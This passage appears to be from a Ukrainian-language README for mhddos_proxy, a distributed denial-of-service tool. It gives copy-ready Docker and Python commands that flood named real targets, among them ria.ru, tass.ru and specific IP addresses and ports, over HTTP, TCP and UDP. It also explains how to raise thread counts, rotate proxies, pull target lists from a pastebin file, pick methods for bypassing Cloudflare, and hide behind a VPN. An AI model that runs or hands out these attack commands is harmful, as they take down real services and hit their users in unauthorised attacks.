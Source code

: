    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru https://tass.ru

HTTP по IP + PORT

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy 5.188.56.124:80 5.188.56.124:3606

TCP

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy tcp://194.54.14.131:4477 tcp://194.54.14.131:22

UDP - **ТУТ ПОТРІБНО ВКЛЮЧИТИ VPN**

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy udp://217.175.155.100:53

### Python - усе аналогічно

    python3 runner.py https://ria.ru https://tass.ru

### Налаштування

**УСІ ПАРАМЕТРИ МОЖНА КОМБІНУВАТИ**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXX` - кількість потоків на кожне ядро CPU, за замовчуванням - 300

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 500 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--debug`

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --debug https://ria.ru https://tass.ru

Змінити частоту оновлення проксі (за замовчуванням - кожні 10 хвилин) - `-p SECONDS`

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -p 900 https://ria.ru https://tass.ru

Цілі з віддаленого файла конфігурації - `-c https://pastebin.com/raw/95D1jjzy`

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -c https://pastebin.com/raw/95D1jjzy

Обрати метод(и) для HTTP(S) атаки (наприклад для обходу Cloudflare) - `--http-methods CFB`  
**Цей параметр тільки в кінці** команди  
Повний список [див. тут](https://github.com/MHProDev/MHDDoS#features-and-methods)

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru https://tass.ru --http-methods CFB

## Документація

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--rpc RPC] 
                     [--debug]
                     [--http-methods METHOD [METHOD ...]]
